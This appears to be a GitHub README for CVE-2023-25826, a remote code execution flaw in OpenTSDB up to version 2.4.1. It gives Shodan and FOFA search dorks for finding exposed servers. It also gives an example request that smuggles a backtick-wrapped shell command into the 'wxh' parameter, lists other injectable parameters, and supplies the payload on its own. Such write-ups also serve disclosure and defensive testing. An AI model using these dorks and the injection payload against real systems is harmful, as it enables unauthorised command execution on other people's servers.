 # CVE-2023-25826
![](https://img.shields.io/static/v1?label=Product&message=OpenTSDB&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20Current%20Versions%20<=%202.4.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.favicon.hash:407286339
```
```
http.html_hash:-392672026
```

- FOFA dork:
```
icon_hash="407286339"
```

### Usage
```
The paramenter wxh needs some sanitation before being used by opentsdb.

See example url:

http://target_url:4242/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60id%60&style=linespoint&png

Results in RCE unfortunately

More parameters:

    wxh
    start
    m
    o
    key
    style
```
Payload:
```
%60id%60
```
